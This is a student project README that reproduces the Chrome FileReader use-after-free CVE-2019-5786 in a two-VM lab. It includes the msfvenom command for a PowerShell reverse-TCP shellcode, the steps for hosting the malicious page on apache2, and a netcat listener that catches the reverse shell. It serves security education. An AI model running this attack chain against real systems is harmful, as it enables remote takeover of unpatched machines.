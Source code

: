 # CMPT733-Group9

**Members**: Yogesh Chaudhary, Haolin Ye, Madhvik Patel

**Topic**: Reproducing CVE-2019-5786 chrome Filereader Use-After-Free vulnerability
<br />
<br />

## Environment

- VM for Windows7 (32-bit) with the vulnerable chrome version installed: [Link](https://drive.google.com/file/d/1nraxRiuc1U02qz4ODMIiIuF5ftgp15Wl/view?usp=sharing)
- A Linux VM (such as Ubuntu 16.04)

If you want to have a fresh build, here are the resources you need:

- VM file for Windows 7 (32-bit) from Microsoft: [Link](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/)
- Google_Chrome (v72.0.3626.119): [Link](https://drive.google.com/file/d/128dxHVSc-pwEI0Rnyl_Hadfait1xDuNf/view?usp=sharing)

You should put these two VMs in the same LAN for convenience and make sure they can find each other. If you are using Virtualbox, select "NAT Network"; If you are using VMWare, select "NAT".

![diag](./diag.png)
<br />
<br />
<br />

## How to run the exploit

### Setups on the attacker side (Linux VM)

You need to host the malicious website on the Linux VM so make sure you have apache2 installed. You can verify if the service is running by following command on Linux VM:

```
systemctl status apache2
```



Firstly, generate a new shellcode because you need to include attacker VM's ip address in the shellcode. You can check the ip address of Linux VM by `ifconfig`. Then, use a very popular tool called [MsfVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) to generate the shellcode and encode it with percent-encoding. Execute the following command by replacing YOUR_IP with your Linux VM's ip address.

```
msfvenom -p windows/powershell_reverse_ tcp LHOST=YOUR_IP LPORT=4449 PayloadBindPort=4449 -a x86 --platform windows -f js_le -e generic/none
```

Then, open `index.html` and search for `shellcode` variable. Replace it with the shellcode you just generated.

<br />

Secondly, move the malicious website (index.html) to the web root folder of apache2

```
sudo mv index.html /var/www/html
```

<br />

Thirdly, start a local listener using netcat and cross your finger

```
nc -lvnp 4449
```



### On Windows7 VM

You need to open cmd and run chrome.exe out of sandbox environment with the flag `--no-sandbox`. Here are the commands:

```
cd "C:\Program Files\Google\Chrome\Application"

chrome.exe --no-sandbox
```



Finally, visit the malicious website hosted on Linux VM. For example, if the ip address of your Linux MV is 10.0.2.4, you should visit the url `http://10.0.2.4`

<br />

If the exploitation is successful, you can see a reverse shell established on Linux VM. If the malicious page is crashed, simply refresh the page and try again.

<br />
<br />

## Video Demo

You can also check our demo [here](https://youtu.be/Wq8kT_a6ZLQ) on YouTube.
